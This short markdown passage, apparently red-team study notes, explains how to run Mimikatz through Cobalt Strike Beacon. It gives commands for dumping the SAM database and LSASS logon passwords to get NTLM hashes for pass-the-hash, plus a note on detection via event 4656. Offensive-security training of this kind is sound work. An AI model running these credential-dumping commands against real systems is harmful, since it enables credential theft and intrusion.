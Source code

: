 

Cannot run multiple commands like in console:

``PS C:\Tools\mimikatz\x64> .\mimikatz.exe token::elevate lsadump::sam exit``

Instead use :

`!` to elevate privilege
`@` impersonate Beacon's thread token before running the command

`@` option is useful in cases where Mimikatz needs to interact with a remote system, such as with dcsync.

So in the example above, the correct Cobalt Strike syntax would be:

``beacon> mimikatz !lsadump::sam``


## NTLM Hashes

Dump passwords from memory, even plaintext sometimes. Useful for **Pass the Hash**

```
mimikatz !sekurlsa::logonpasswords
```

> [!warning] 
> Requires elevated privileges.

Cobalt Strike also has a short-hand command for this called `logonpasswords`.  After dumping these credentials, go to _View > Credentials_ to see a copy of them

> [!danger] 
> OPSEC: This module will open a read handle to LSASS which can be logged under event 4656. Use the "Suspicious Handle to LSASS" saved search in Kibana to see them. 

